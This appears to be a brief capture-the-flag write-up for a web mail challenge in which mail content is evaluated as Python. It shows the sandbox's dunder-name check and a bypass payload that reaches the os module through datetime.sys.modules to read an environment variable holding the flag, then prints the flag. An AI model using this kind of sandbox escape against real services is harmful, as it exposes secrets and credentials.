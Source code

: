 ```python
def assert_no_dunder_name(code_obj, expr):
    for name in code_obj.co_names:
        if "__" in name or name in _UNSAFE_ATTRIBUTES:
            raise NameError('Access to forbidden name %r (%r)' % (name, expr))
```

I tried doing some simple math in the content:

```
Content: 1 + 1

Receive content: 2
```

We can see that it is possible to do math. I tried other commands and come to:

```python
datetime.sys.modules["os"].environ["FLAG"]
```

You can use `bob`/`alice` account and send this to your registered account **in the content** of the mail. You will receive the flag

![Guide image](../screenshots/vibe-web-mail-1.png)

The flag is: `ASIS{PH1ND_50m3_V183_1n_3NV_de1d8572fde00fb04f06d1ce}`
